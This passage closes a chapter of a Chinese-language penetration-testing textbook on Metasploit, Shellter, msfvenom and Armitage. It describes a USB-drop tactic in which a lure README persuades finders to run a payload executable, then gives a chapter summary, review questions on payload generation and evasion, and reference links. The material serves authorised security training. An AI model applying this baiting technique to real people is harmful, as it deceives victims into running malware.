1.  现在，到了社会工程部分。如果 AutoRun 不起作用怎么办？毕竟，现在很多系统都禁用了它。记住，如果有人愿意插入我们的驱动器，他们会看到文件。为了暗示运行`DataRecovery.exe`值得冒险，我们将添加一个诱人的`README`文件。这个文件会让它看起来像是删除的文件可以恢复。好奇心是很多人的软肋。看看以下截图：

图 7.14 – 输入我们的心理学 README

你可能知道不要轻易上当，但想象一下在客户的公共区域散布 100 个 USB 驱动器。你不觉得会有反应吗？你只需要它工作一次 —— 这是对客户的宝贵教训。

# 总结

在本章中，我们学习了更多高级的 Metasploit 使用方法。我们通过使用 Metasploit 框架之外的工具——Shellter，将有效载荷生成技能提升到了一个新水平，利用 Metasploit 有效载荷。我们还探索了`msfvenom`的功能，今天它将以前的 Metasploit 有效载荷和编码器工具结合起来。接着在了解了有效载荷之后，我们学习了如何使用 Ruby 构建自定义模块，并使其在 Metasploit 中运行。然后，我们检查了如何通过 Armitage 前端 GUI 使 Metasploit 变得高度组织化和高效。我们还演示了如何在 Armitage 中枚举和利用目标。最后，我们学习了如何利用 Metasploit 有效载荷来构建强大的社会工程攻击。秉承真正的黑客精神，下一章将带领我们更深入地了解处理器如何看待我们的代码片段。

# 问题

回答以下问题以测试你对本章内容的掌握：

1.  有哪三种类型的有效载荷？

1.  __________ 是一个常见的十六进制字节，它会破坏我们有效载荷的执行。

1.  应该使用哪个`msfvenom`标志来指定有效载荷在 x86 指令集架构上运行？

1.  在 Ruby 中，`def`定义一个 _______。

1.  `print_good()`和`print_status()`有什么区别？

1.  Armitage 中只有一个目标视图。（正确 | 错误）

1.  当你发送 Shellter 隐身模式的有效载荷时，______ 应该始终设置为 ______，当你为`windows/meterpreter/reverse_tcp`配置选项时。

1.  所有现代 Windows 主机默认启用 AutoRun。（正确 | 错误）

# 深入阅读

有关本章所涉及的主题的更多信息，请查看以下资源：

+   Shellter 项目主页：[`www.shellterproject.com/`](https://www.shellterproject.com/)

+   使用 Wine32 运行 Windows 应用程序的文档：[`www.winehq.org/documentation`](https://www.winehq.org/documentation)

+   GitHub 上的 Metasploit 框架：[`github.com/rapid7/metasploit-framework`](https://github.com/rapid7/metasploit-framework)
